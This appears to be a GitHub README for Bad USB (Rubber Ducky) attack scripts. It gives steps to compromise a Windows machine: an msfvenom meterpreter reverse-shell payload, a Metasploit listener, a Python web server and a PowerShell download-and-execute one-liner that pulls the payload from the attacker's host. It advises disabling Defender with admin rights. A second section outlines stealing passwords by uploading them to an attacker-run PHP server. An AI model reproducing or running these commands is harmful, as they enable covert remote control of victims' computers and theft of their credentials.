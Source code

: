 # **Various Ducky scripts for Bad USBs**

## **Steps to Compromise(StealthReverseShell.txt):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
[![Click Me](https://img.youtube.com/vi/5RGWCgTj9_g/0.jpg)](https://www.youtube.com/watch?v=5RGWCgTj9_g)

## **Steps to Compromise(PassGrab.txt):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Setup the web server.<br/> 
2. Replace the domain name with your own.<br/>
3. Setup php file to accept incoming upload requests.<br/>

## Demonstration Video 
[![Click Me](https://img.youtube.com/vi/IceMkFfI4fo/0.jpg)](https://www.youtube.com/watch?v=IceMkFfI4fo)
